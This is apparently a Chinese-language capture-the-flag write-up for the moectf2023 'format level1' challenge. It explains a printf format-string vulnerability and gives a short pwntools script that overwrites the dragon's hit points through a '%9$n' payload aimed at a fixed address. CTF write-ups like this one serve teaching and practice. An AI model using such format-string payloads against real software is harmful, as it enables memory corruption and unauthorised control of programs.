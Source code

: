 ```yaml
---
title: moectf2023 - format level1
date: 2023/9/25 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过printf漏洞将龙的血量修改为1，以便轻松击败龙并获取flag。
---
```


## 文件分析

下载`format_level1`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

程序员斗恶龙的故事开始了！由于我们先攻击龙，
所以我们的目标是我们的atk>龙的hp即可  
程序中我们的初始atk为1，而龙的hp为10M，每次沉淀可以增加1点atk  
~~那么只要沉淀10,000,000次就可以秒杀恶龙了~~  
程序中存在printf漏洞，将大数字注入atk较难，但将小数字注入hp却较简单，
只要将龙的血量置1，就可以达成目标，拿到flag

程序未开启PIE，所以地址没有偏移，方便直接注入；
通过gdb调试可知，`talk`函数中printf漏洞的str位于栈上第7个，
由此可构造如下exp进行血量修改

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 38469)
sh.sendline(b'2') # 练习时长1坤年，作者也是小黑子
sh.sendline(b'3') # talk with dragon
dragonhpAddr = 0x0804c00c
sh.sendline(b'0%9$n000' + p32(dragonhpAddr)) # write 1 to addr (1x'0')
sh.sendline(b'1') # attack the dragon
sh.interactive()
```

{% note info fa-info %}
arg7:'0%9$', arg8:'n000', arg9:dragonAddr；所有0都是占位符，无实际含义
{% endnote %}

这道题构造payload时出了点小问题：sendline太快，最后的`1`没读到，
要重新打，服务器读取问题要考虑！遇到这种情况就要使用sendlineafter()

Done.
